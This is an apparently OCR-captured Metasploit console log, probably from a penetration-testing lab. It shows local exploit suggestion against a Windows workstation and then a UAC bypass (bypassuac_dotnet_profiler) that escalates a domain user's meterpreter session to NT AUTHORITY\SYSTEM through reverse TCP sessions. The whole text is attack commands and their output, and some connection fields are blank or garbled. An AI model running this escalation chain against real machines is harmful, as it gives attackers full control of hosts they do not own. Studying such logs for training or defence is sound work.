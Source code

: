 ```bash
msf6 exploit(windows/local/always_install_elevated) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: mayorsec\s.chisholm
meterpreter > run post/multi/recon/local_exploit_suggester 

[*] 10.120.116.10 - Collecting local exploits for x64/windows...
[*] 10.120.116.10 - 186 exploit checks are being tried...
 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/always_install_elevated                  Yes                      The target is vulnerable.
 2   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.
meterpreter > 
Background session 1? [y/N]  
msf6 exploit(multi/script/web_delivery) > use exploit/windows/local/bypassuac_dotnet_profiler
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on  
[*] Sending stage (200774 bytes) to
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[*] Meterpreter session 3 opened (6:4444 -> 6879) at 2023-07-24 19:58:08 +0100
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                           Connection
  --  ----  ----                     -----------                           ----------
  1         meterpreter x64/windows  mayorsec\s.chisholm @ WORKSTATION-01  (10.120.116.10)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WORKSTATION-01 (10.120.116.10)
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WORKSTATION-01  (10.120.116.10)

msf6 exploit(windows/local/bypassuac_dotnet_profiler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

